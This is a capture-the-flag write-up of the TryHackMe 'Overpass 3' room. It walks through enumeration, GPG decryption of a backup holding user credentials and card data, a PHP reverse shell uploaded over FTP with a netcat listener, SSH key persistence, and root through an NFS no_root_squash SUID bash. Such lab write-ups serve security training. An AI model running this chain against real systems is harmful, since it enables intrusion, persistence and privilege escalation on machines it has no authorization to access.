 # Overpass 3 – Hosting [Tryhackme](https://tryhackme.com/room/overpass3hosting)

## description:
The Overpass 3 – Hosting machine is a medium-difficulty box that combines multiple attack vectors: backup file analysis, SSH key management, webshell upload via FTP, NFS misconfiguration, and privilege escalation through ```no_root_squash```. This writeup covers the exploitation path step by step.

## Enumeration

We start with scanning:

```python
nmap -sC -sV -p- -T4 10.10.195.229
```
Open ports:

* 21/tcp – FTP

* 22/tcp – SSH

* 80/tcp – HTTP

Visiting the main page on port 80 didn’t reveal anything useful, so we moved on to directory scanning:

```python
gobuster dir -u 10.10.195.229 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
## Initial Foothold

> Hint: This flag belongs to apache

From the scan we discovered ```/backups``` containing a ```backup.zip```. After downloading and extracting, we found a private key and a ```.gpg``` file.

We first import the GPG key:

```python
gpg --import priv.key
gpg --decrypt CustomerDetails.xlsx.gpg > output.xlsx
```
This gave us access to an ```.xlsx``` file, which listed three users:

```python
Customer Name    	Username	       Password	          Credit card number	   CVC
Par. A. Doxx	    paradox	         *****************	4111 1111 4555 1142	   432
0day Montgomery     0day	         *****************	5555 3412 4444 1115	   642
Muir Land	        muirlandoracle	 *****************	5103 2219 1119 9245	   737
```

The user of interest is paradox. SSH login didn’t work, so we tried FTP instead:

```python
ftp 10.10.195.229
```
We uploaded a reverse shell:

```python
put reverseshell.php
```
On our machine:

```python
nc -lvnp 4444
```
Then triggered it by visiting:

```python
http://10.10.195.229/reverseshell.php
```
Got a shell as ```apache```.

Navigating to ```/usr/share/httpd```, we found and read ```web.flag```.

## User Access

With the recovered password for ```paradox```, we switched users:

```python
su paradox
```
To get a stable shell, we set up SSH key authentication. On attacker machine:

```python
ssh-keygen
```
Copy the contents of ```id_ed25519.pub``` and append it to the victim:

```python
echo "<contents_of_pub>" >> /home/paradox/.ssh/authorized_keys
```
Now we can log in as:

```python
ssh -i /home/kali/.ssh/id_ed25519 paradox@10.10.195.229
```

## Privilege Escalation

Running <b>linpeas.sh</b> revealed an NFS service running on port <b>2049</b>. We set up port forwarding:

```python
ssh -i id_rsa -L 2049:127.0.0.1:2049 paradox@machine-ip
```
On attacker machine, mount the export:

```python
mkdir flag
sudo mount -t nfs -o port=2049 localhost:/ flag
```
Inside, we found and read user.flag.

Next, exploiting the no_root_squash misconfiguration:

On victim:

```python
cp /bin/bash .
```
On attacker:

```python
sudo chown root:root bash
sudo chmod u+s bash
```
Back on victim:

```python
./bash -p
```
Now root access is achieved:

```python
cat /root/root.flag
```
